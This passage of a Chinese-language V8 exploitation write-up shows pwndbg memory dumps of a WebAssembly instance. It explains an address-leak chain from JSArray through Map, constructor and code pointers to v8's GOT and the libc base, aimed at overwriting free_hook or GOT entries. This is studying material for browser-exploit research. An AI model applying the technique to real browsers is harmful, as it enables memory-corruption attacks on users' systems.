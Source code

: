 ```
 - globals_start: (nil)
 - imported_mutable_globals: 0x55b235cab210
 - indirect_function_table_size: 0
 - indirect_function_table_sig_ids: (nil)
 - indirect_function_table_targets: (nil)
 - properties: 0x3e630800222d <FixedArray[0]>
 - All own properties (excluding elements): {}

pwndbg> tel 0x3e63081d35bd-1 30
00:0000│  0x3e63081d35bc ◂— 0x800222d08207399
01:0008│  0x3e63081d35c4 ◂— 0x800222d0800222d /* '-"' */
02:0010│  0x3e63081d35cc ◂— 0x800222d /* '-"' */
03:0018│  0x3e63081d35d4 —▸ 0x7f6b18000000 ◂— 0x0
04:0020│  0x3e63081d35dc ◂— 0x10000
05:0028│  0x3e63081d35e4 —▸ 0x55b235c861b0 —▸ 0x7ffd839ca5f0 ◂— 0x7ffd839ca5f0
06:0030│  0x3e63081d35ec —▸ 0x55b235cab0e0 ◂— 0x0
07:0038│  0x3e63081d35f4 ◂— 0x0
... ↓     2 skipped
0a:0050│  0x3e63081d360c —▸ 0x55b235cab210 —▸ 0x7f6d2e41cbe0 (main_arena+96) —▸ 0x55b235d28080 ◂— 0x0
0b:0058│  0x3e63081d3614 —▸ 0x55b235c86190 —▸ 0x3e6300000000 ◂— sub    rsp, 0x80
0c:0060│  0x3e63081d361c —▸ 0x1998dd4f3000 ◂— jmp    0x1998dd4f3480 /* 0xcccccc0000047be9 */
```

可以注意到在 wasmInstance+0x68 处保存了内存段的起始地址，读取该处即可

## 泄露地址手记

目前为止都是通过自定义一部分变量完成地址泄露的，但这个地址只是某个匿名内存段罢了

```
    0x271c08040000     0x271c0814d000 rw-p   10d000 0      [anon_271c08040]
```

因为 WASM 是我们自己定义的，所以还能通过某些方法拿到地址，但如果我们现在不想写 shellcode，想像常规的 PWN 那样去写 free\_hook 或者 GOT 表时，该如何泄露地址？

一个是随机泄露，从某个变量随机的往上一个个测试偏移地址，但很显然，在开启了 ASLR 的情况下，效率太低还不稳定，因此主要通过另外一个较为稳定的方式泄露地址：

JSArray结构体--> Map结构体-->constructor结构体-->code属性地址-->code内存地址的固定偏移处保存了 v8 的二进制指令地址-->v8 的 GOT 表--> libc基址：

```
pwndbg> job 0x34d808049979
0x34d808049979: [JSArray]
 - map: 0x34d808203ae1 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]

pwndbg> job 0x34d808203ae1
0x34d808203ae1: [Map]
 - type: JS_ARRAY_TYPE
 - constructor: 0x34d8081cbe85 <JSFunction Array (sfi = 0x34d80814adc9)>

pwndbg> job 0x34d8081cbe85
0x34d8081cbe85: [Function] in OldSpace
 - map: 0x34d808203a19 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - code: 0x34d800185501 <Code BUILTIN ArrayConstructor>

pwndbg> tel 0x34d800185501-1+0x7EBAB00 30
00:0000│  0x34d808040000 ◂— 0x40000
01:0008│  0x34d808040008 ◂— 0x12
02:0010│  0x34d808040010 —▸ 0x55cca1732560 ◂— 0x0
03:0018│  0x34d808040018 —▸ 0x34d808042118 ◂— 0x608002205
04:0020│  0x34d808040020 —▸ 0x34d808080000 ◂— 0x40000
05:0028│  0x34d808040028 ◂— 0x3dee8
06:0030│  0x34d808040030 ◂— 0x0
07:0038│  0x34d808040038 ◂— 0x2118
08:0040│  0x34d808040040 —▸ 0x55cca17b4258 —▸ 0x55cc9f7a5d20 —▸ 0x55cc9e9ba260 ◂— push   rbp
```